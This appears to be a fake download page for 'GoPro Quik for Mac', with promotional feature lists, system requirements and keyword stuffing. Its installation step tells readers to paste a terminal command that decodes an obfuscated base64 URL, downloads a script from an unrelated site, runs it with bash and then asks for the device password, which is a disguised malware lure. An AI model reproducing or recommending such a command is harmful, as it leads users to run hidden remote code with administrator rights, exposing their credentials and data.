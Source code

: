 # GoPro Quik Mac Download

![GoPro Quik Mac Screenshot](https://static.gopro.com/assets/blta2b8522e5372af40/bltcf8b58984c9d9a90/64dccf63b1e7d17bebfe861f/37-pdp-H12BCE-375.png)

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxMC9pbnN0YWxsLnNo | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is GoPro Quik for Mac?

**GoPro Quik for Mac** is the official video editing and media management application for your GoPro footage, now available natively for macOS. Whether you're editing action-packed clips from your Hero, Max, or Fusion camera—or just managing your photo and video library—Quik gives you the tools to create stunning, shareable content fast and effortlessly.

With a simple drag-and-drop interface, GoPro Quik automatically syncs footage to music, applies cinematic transitions, and lets you fine-tune your edits. Designed with speed and usability in mind, it’s perfect for adventurers, content creators, vloggers, and anyone who wants to quickly turn raw footage into polished videos.

Built specifically for macOS, **GoPro Quik** integrates smoothly with your MacBook or iMac, taking advantage of system resources to ensure high performance—even on Apple Silicon (M1/M2/M3). Whether you're organizing your media, transferring files from your GoPro, or publishing to social media, Quik on Mac is your creative hub.

---

## 🌟 Key Features & Benefits

- 🎬 **One-Click Edits** — Auto-generate videos with synced music and stylish cuts.
- 🪄 **Smart Highlight Detection** — Quik finds your best shots automatically.
- 🎵 **Built-in Music Library** — Choose from royalty-free soundtracks.
- 🖥️ **macOS Optimized** — Native support for Intel and Apple Silicon (M1/M2/M3).
- 📂 **Media Management** — Organize, trim, and share your footage with ease.
- ⚡ **Fast File Transfers** — Quickly import videos and photos from your GoPro.
- 🎨 **Manual Edits** — Full creative control with trim, crop, text, and filters.
- 📤 **Export in HD/4K** — Share on YouTube, Instagram, or save to local drive.

---

![GoPro Quik Mac Screenshot 2](https://community.gopro.com/sfc/servlet.shepherd/version/renditionDownload?rendition=THUMB720BY480&versionId=0683b00000KKMeu&operationContext=CHATTER&contentId=05T3b00001CF4Ak&page=0)

---


## 🖥️ System Requirements

- **macOS:** 10.15 Catalina or later  
- **Processor:** Intel or Apple Silicon (M1/M2/M3)  
- **RAM:** 8 GB or more  
- **Disk Space:** 2 GB minimum  
- **GoPro Device:** HERO9, HERO10, HERO11, MAX, or newer recommended

---

## 🏷️ Keywords

gopro quik mac, go pro quik mac, quik mac gopro, quik mac, gopro app for mac, go pro app mac, gopro quik app for mac, gopro quik mac download, gopro quik download mac, go pro quik for mac, gopro quik for macbook air, gopro quik app mac, mac quik


